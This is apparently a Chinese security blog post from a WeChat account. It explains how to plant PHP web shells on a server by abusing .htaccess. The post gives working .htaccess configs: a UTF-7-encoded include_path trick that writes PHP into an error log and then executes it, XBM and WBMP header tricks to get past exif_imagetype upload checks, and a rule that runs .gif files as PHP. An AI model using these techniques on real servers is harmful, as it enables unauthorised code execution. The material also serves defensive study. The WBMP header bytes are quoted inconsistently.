 ![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7d1cJs2NgO1Jby9UsIxrY7dQLsTZbPpqEY20wjHBdh88WAdMgn8zJ4ykrwY4EWyWSxZn7mAj9cCJg/640?wx_fmt=png)

可以通过这种方法来往目标主机上写马。因为会经过 html 编码，所以需要 UTF-7 来绕过。

.htaccess：

```
# 第一次
php_value error_log /tmp/shell #定义错误路径
#---- "<?php phpinfo(); __halt_compiler();" in UTF-7:
php_value include_path "+ADw?php phpinfo()+ADs +AF8AXw-halt+AF8-compiler()+ADs"
# 第二次
php_value include_path "/tmp" #将include()的默认路径改变
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

在文件上传时，有时候会用 exif_imagetype 函数判断一个图像的类型，读取一个图像的第一个字节并检查其签名，所以我们图片马的开头要加上 GIF89a，但是如果我们在. htaccess 文件中也加入 GIF89a 的话会导致. htaccess 文件无法生效，所以我们要用别的方法。

*   方法一：即预定义高度宽度：
    

```
#define width 1337
#define height 1337
```

```
文件内容---
```

这种方法可以让. htaccess 文件生效，因为’#’号在. htaccess 文件中是注释符，不影响文件本身内容解析。

*   方法二：利用`\x00\x00\x8a\x39\x8a\x39`
    

`x00x00x8ax30x8ax39`是 wbmp 文件的文件头，0x00 在. htaccess 文件中同样也是注释符，所以不会影响文件本身。注意：在. htaccess 前添加 x00x00x8ax39x8ax39 要在十六进制编辑器中添加，或者使用 python 的 bytes 类型。

所以我们. htaccess 文件的内容可以为：

```
#define width 1337
#define height 1337
AddType application/x-httpd-php .gif
```

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**